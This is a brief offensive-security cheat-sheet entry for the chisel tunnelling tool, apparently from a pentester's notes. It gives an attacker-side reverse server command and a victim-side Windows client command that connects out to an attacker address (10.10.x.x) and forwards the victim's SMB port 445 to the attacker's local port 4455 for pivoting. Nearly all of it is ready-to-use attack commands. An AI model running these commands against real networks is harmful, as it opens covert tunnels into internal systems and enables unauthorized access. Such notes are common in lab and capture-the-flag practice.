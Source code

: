 # chisel pivoting tunnel over http written in go

## usage: attacker open chisel server and victim connects as a client
redirects the victim's port 445 on my local machine as 127.0.0.1:4455
```cheat bash
attacker:
./chisel_linux_amd64 server -p 11111 -reverse -v

victim: 
.\chisel_windows_amd64.exe client 10.10.x.x:11111 R 127.0.0.1:4455:127.0.0.1:445

```

tags: chisel tunnel pivot
